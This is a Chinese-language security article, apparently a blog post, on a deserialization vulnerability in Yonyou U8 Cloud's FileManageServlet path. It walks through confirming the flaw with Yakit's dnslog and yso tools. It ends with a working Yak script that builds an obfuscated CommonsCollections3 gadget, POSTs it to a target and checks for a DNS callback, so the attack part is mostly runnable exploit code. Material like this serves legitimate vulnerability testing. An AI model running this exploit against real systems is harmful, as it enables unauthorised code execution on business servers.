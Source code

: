 在命令行直接调用脚本检测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAcZtGianYkJBFpo6Pwo7ACYCov8kY8NkKk2jkGbsibnb54fygjQfLFXTw/640?wx_fmt=png&from=appmsg "")  
##   
  
**用友U8 Cloud**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaArMrIlEiaf1nfKHRa2v3Picrdl67bkHxPutzkiaT5ibZIcACJo9gbzltgGw/640?wx_fmt=png&from=appmsg "")  
  
##   
  
![](https://mmbiz.qpic.cn/mmbiz_svg/zsUXYY6y4cIDakURPCPDZiaUOiaeibUvwicKwtaOL6AWEpWlwzBibVCqr20eRrG2JnWsUNf0BowF2HOsibA5BFe9vuwVZcianwluXoib/640?wx_fmt=svg&from=appmsg "")  
  
**原理**  
###   
  
用友的一些参数直接用序列化对象传递，导致了反序列化漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/zsUXYY6y4cIDakURPCPDZiaUOiaeibUvwicKwtaOL6AWEpWlwzBibVCqr20eRrG2JnWsUNf0BowF2HOsibA5BFe9vuwVZcianwluXoib/640?wx_fmt=svg&from=appmsg "")  
  
**实践**  
###   
  
网站首页，本次测试利用：  
/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet  
路径反序列化漏洞，通过dnslog反连验证。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAdTghkyuw4mEBG6iaYr721BqW952PEib8vtF7ib445uaazXcduLnrJJRXw/640?wx_fmt=png&from=appmsg "")  
  
首先在yakit内置dnslog服务申请一个域名，再打开webfuzzer，使用yso:dnslog标签配合dnslog域名爆破可用链，如图，右侧可以看到payload为：CommonsCollections3 dnslog evil class xxx.dgrh3.cn，在yakit右上角的 "漏洞与风险" 收到了反连提醒，说明目标成功加载了class  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAia3JoPxXFahiaGpc0FMVFBSYY6FI8poARcEpiaxAAbZicTaNj0kDv9y3tw/640?wx_fmt=png&from=appmsg "")  
  
下面开始编写payload，打开Yso-Java Hack页面，利用链选择cc3，恶意类选择DNSLog  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaA0kFgoexvtpJsez8KmRVOQym4JgdhPaUEcUHiaovE3koCY5aZBKJZYsg/640?wx_fmt=png&from=appmsg "")  
  
在yakrunner里稍加修改  
```
target = cli.String("u")
domain,token = risk.NewDNSLogDomain()~
className = randstr(8)
log.setLevel("info")
gadgetObj,err = yso.GetCommonsCollections3JavaObject(yso.useDNSLogEvilClass(domain),yso.obfuscationClassConstantPool(),yso.evilClassName(className))
if err {
    log.error("%v",err)
    return
}
gadgetBytes,err = yso.ToBytes(gadgetObj)
if err {
    log.error("%v",err)
    return
}
log.info("开始发送payload")
rsp = http.Post(target+"/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet", http.body(gadgetBytes),http.proxy("http://127.0.0.1:8083"))~
res,err = risk.CheckDNSLogByToken(token, 3)
if len(res) != 0{
    log.info("目标 %s 存在反序列化漏洞",target)
}else{
    log.info("目标不存在反序列化漏洞")
}
```  
```

```